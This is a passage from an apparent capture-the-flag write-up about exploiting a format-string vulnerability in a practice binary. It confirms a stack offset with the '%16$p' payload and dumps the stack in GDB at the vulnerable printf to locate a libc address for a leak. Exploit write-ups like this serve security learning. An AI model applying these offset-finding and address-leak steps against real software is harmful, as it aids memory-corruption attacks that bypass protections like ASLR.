 Ok, so the offset is `16`.  The output `0x7024363125` can be verified with (if you're unable to determine by sight :-):

```bash
# echo 7024363125 | xxd -r -p | rev ; echo
%16$p
```

Yep, it's a match.

Lastly, we need to find libc.  Fire up the binary in GDB, set a break point at the vulnerable `printf` (`b *main+772`), and take a look at the stack (send the same string as above):

```
gef➤  telescope 50
0x00007fffffffe250│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffe258│+0x0008: 0x0000001000000000
0x00007fffffffe260│+0x0010: 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00007fffffffe268│+0x0018: 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00007fffffffe270│+0x0020: 0x00000000004053b0  →  0x276e007024363125 ("%16$p"?)
0x00007fffffffe278│+0x0028: 0x00000000004054c0  →  0x00000000004012dd  →  <jumpToHoth+0> endbr64
0x00007fffffffe280│+0x0030: "We are at Earth!"
0x00007fffffffe288│+0x0038: "t Earth!"
0x00007fffffffe290│+0x0040: 0x0000000000000000
0x00007fffffffe298│+0x0048: 0x0000000000000000
0x00007fffffffe2a0│+0x0050: 0x0000007024363125 ("%16$p"?)	 ← $rdi
0x00007fffffffe2a8│+0x0058: 0x0000000000000000
0x00007fffffffe2b0│+0x0060: 0x0000000000000000
0x00007fffffffe2b8│+0x0068: 0x0000000000000000
0x00007fffffffe2c0│+0x0070: 0x0000000000000000
0x00007fffffffe2c8│+0x0078: 0x0000000000000000
0x00007fffffffe2d0│+0x0080: 0x0000000000000000
0x00007fffffffe2d8│+0x0088: 0x0000000000000000
0x00007fffffffe2e0│+0x0090: 0x0000000000000000
0x00007fffffffe2e8│+0x0098: 0x0000000000000000
0x00007fffffffe2f0│+0x00a0: 0x0000000000000000
0x00007fffffffe2f8│+0x00a8: 0x0000000000000000
0x00007fffffffe300│+0x00b0: 0x0000000000000000
0x00007fffffffe308│+0x00b8: 0x0000000000000000
0x00007fffffffe310│+0x00c0: 0x0000000000000000
0x00007fffffffe318│+0x00c8: 0x0000000000000000
0x00007fffffffe320│+0x00d0: 0x0000000000000000
0x00007fffffffe328│+0x00d8: 0x0000000000000000
0x00007fffffffe330│+0x00e0: 0x0000000000000000
0x00007fffffffe338│+0x00e8: 0x0000000000000000
0x00007fffffffe340│+0x00f0: 0x0000000000000000
0x00007fffffffe348│+0x00f8: 0x0000000000000000
0x00007fffffffe350│+0x0100: 0x0000000000000000
0x00007fffffffe358│+0x0108: 0x0000000000000000
0x00007fffffffe360│+0x0110: 0x0000000000000000
0x00007fffffffe368│+0x0118: 0x0000000000000000
0x00007fffffffe370│+0x0120: 0x0000000000000000
0x00007fffffffe378│+0x0128: 0x0000000000000000
0x00007fffffffe380│+0x0130: 0x0000000000000000
0x00007fffffffe388│+0x0138: 0x0000000000000000
0x00007fffffffe390│+0x0140: 0x0000000000000000
0x00007fffffffe398│+0x0148: 0x0000000000400000  →  0x00010102464c457f
0x00007fffffffe3a0│+0x0150: 0x00007fffffffe4a0  →  0x0000000000000001
0x00007fffffffe3a8│+0x0158: 0x74bececde9e90300
0x00007fffffffe3b0│+0x0160: 0x0000000000000000	 ← $rbp
0x00007fffffffe3b8│+0x0168: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```
